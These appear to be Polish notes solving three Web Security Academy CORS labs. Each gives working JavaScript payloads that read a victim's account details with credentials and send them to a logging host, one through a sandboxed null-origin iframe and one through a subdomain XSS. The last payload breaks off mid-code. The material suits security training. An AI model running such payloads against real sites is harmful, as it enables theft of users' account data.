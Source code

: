 ## Lab: CORS vulnerability with basic origin reflection
1. Dopuszczalne jest zapytanie z każdej strony
2. Wystarczy zatem skonstruować taki skrypt:
```
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0aca001603b191f3c09503240075004c.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
    
        function reqListener() {
            location='/log?key='+this.responseText;
        };
    </script>
```

## Lab: CORS vulnerability with trusted null origin
1. Wpisując różne Origin do requesta widzimy że dostajemy nagłówek `Access-Control-Allow-Origin: null` dla wartości Origin: null
2. WAŻNE: to że dostajemy odpowiedź nic nie znaczy, ważne jest żeby był nagłówek, bo nie chodzi o to że będzie blokowany request, a wykonywanie skryptów i przekierowanie cookie
3. Aby w Origin uzyskać wartość null używamy iframe:
```
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a31007a0301b17dc03f469300ec009e.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    location='https://exploit-0a8a000d0307b198c0d6462c01c400a8.web-security-academy.net/log?key='+this.responseText;
    };
    </script>"></iframe>
```

## Lab: CORS vulnerability with trusted insecure protocols

1. Zapytania mogą być generowane jedynie z subdomen
2. Znajdujemy podatność XSS w subdomenie http://stock.0a100003032beefac0af231c00de0028.web-security-academy.net
3. Jako productId możemy wpisać skrypt i będzie on wykonany z tej właśnie subdomeny
4. Konstruujemy skrypt i dodajemy do na exploit server:

### Payload
```
    <script>
        document.location="http://stock.0a100003032beefac0af231c00de0028.web-security-academy.net/?productId=4
    	<script>
    	    var req = new XMLHttpRequest(); 
    	    req.onload = reqListener; 
    	    req.open('get','https://0a100003032beefac0af231c00de0028.web-security-academy.net/accountDetails',true); 
    	    req.withCredentials = true;
    	    req.send();
    
    	    function reqListener() {
```